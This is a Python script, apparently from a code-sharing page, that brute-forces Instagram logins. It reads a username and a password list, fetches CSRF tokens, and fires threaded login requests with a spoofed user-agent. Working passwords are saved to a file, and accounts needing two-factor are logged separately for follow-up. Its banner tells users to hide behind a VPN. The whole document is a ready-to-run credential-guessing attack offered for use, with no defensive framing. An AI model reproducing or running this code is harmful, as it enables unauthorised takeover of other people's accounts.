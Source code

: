 # Brute_Force_IG-ACT
from __future__ import absolute_import from __future__ import print_function import requests, sys, threading, time, os, random from random import randint from six.moves import input CheckVersion = str(sys.version) import re from datetime import datetime    print('''                                ....                                                                              %                                                                             ^                                                                   L                                                                            "F3  $r                                                                     $$$$.e$"  .                                                                  "$$$$$"   "                                            (Xzero by 4)           $$$$c  /                                                .                   $$$$$$$P                                                ."c                      $$$                                                .$c3b                  ..J$$$$$e                                             4$$$$             .$$$$$$$$$$$$$$c                                            $$$$b           .$$$$$$$$$$$$$$$$r                                              $$$.        .$$$$$$$$$$$$$$$$$$                                               $$$c      .$$$$$$$  "$$$$$$$$$r                                   Author   : XzeroXvan07  Management depends on vpn software. Please use it before running the tool                        """"""""""""""""""""""""""""""""""""""""""  ''')   class InstaBrute(object):     def __init__(self):          try:             user = input('username : ')             Combo = input('passList : ')             print('\n----------------------------')                    except:             print(' The tool was arrested exit ')             sys.exit()           with open(Combo, 'r') as x:             Combolist = x.read().splitlines()         thread = []         self.Coutprox = 0         for combo in Combolist:             password = combo.split(':')[0]             t = threading.Thread(target=self.New_Br, args=(user, password))             t.start()             thread.append(t)             time.sleep(0.9)         for j in thread:             j.join()      def cls(self):         linux = 'clear'         windows = 'cls'         os.system([linux, windows][os.name == 'nt'])      def New_Br(self,user,pwd):         link = 'https://www.instagram.com/accounts/login/'         login_url = 'https://www.instagram.com/accounts/login/ajax/'          time = int(datetime.now().timestamp())          payload = {             'username': user,             'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time}:{pwd}',             'queryParams': {},             'optIntoOneTap': 'false'         }          with requests.Session() as s:             r = s.get(link)             csrf = re.findall(r"csrf_token\":\"(.*?)\"", r.text)[0]             r = s.post(login_url, data=payload, headers={                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36",                 "X-Requested-With": "XMLHttpRequest",                 "Referer": "https://www.instagram.com/accounts/login/",                 "x-csrftoken": csrf             })             print(f'{user}:{pwd}\n----------------------------')                  if 'authenticated": true' in r.text:                 print(('' + user + ':' + pwd + ' --> Good hack '))                 with open('good.txt', 'a') as x:                     x.write(user + ':' + pwd + '\n')             elif 'two_factor_required' in r.text:                    print(('' + user + ':' + pwd + ' -->  Good It has to be checked '))                 with open('results_NeedVerfiy.txt', 'a') as x:                     x.write(user + ':' + pwd + '\n')     InstaBrute()
